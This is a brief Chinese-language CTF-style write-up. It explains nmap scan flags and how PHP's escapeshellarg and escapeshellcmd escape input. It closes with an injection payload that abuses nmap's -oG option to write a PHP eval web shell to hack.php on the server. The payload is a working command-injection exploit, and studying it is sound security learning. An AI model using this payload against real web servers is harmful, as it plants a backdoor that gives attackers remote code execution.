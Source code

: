 

nmap -T5 -sT -Pn --host-timeout 2 -F host -T<0-5> : 速度/时间模板参数，指定了扫描的速度。 -sT : 使用TCP进行扫描。 -Pn : 将所有主机视为在在线，跳过主机发现。 --host-timeout : 设置超时时间。设置为2秒，即如果目标主机在2秒内没有响应，Nmap将放弃该主机的扫描。 -F : 进行快速扫描，用于快速识别目标主机上开放的常见端口，而不扫描所有的端口。

> escapeshellarg — 把字符串转码为可以在 shell 命令里使用的参数
> 功能 ：`escapeshellarg()` 将给字符串增加一个单引号并且能引用或者转码任何已经存在的单引号，
> 这样以确保能够直接将一个字符串传入 shell 函数，shell 函数包含 `exec()`, `system()` 执行运算符(反引号)

> escapeshellcmd — shell 元字符转义
> 功能：`escapeshellcmd()` 对字符串中可能会欺骗 shell 命令执行任意命令的字符进行转义。
> 此函数保证用户输入的数据在传送到 `exec()` 或 `system()` 函数，或者 执行操作符 之前进行转义。
>
> 反斜线（\）会在以下字符之前插入：
> &#;`|?~<>^()[]{}$*, \x0A 和 \xFF*。 *’ 和 “ 仅在不配对儿的时候被转义。
> 在 Windows 平台上，所有这些字符以及 % 和 ! 字符都会被空格代替。

构建payload：`?host=' <?php eval($_POST["hack"]);?> -oG hack.php '`

![image-20240428210330513](C:\Users\86182\assets\image-20240428210330513.png)

